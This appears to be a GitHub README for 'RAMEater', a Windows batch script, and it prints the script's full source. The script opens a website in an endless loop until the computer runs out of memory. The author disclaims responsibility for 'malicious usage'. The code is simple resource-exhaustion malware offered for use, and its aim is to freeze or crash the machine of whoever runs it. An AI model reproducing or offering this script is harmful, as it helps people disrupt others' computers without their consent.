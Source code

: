
<div align="center"> 


# RAMEater
Opens up specific site until your computer runs out of RAM.

**I do not take any responsibility for its malicious usage.**


> Code is very simple and looks like that: 
> 
> 
> 
```bat
@echo off
:x
start	https://github.com/LowOnGravity
goto x
  ```
  >


</div>
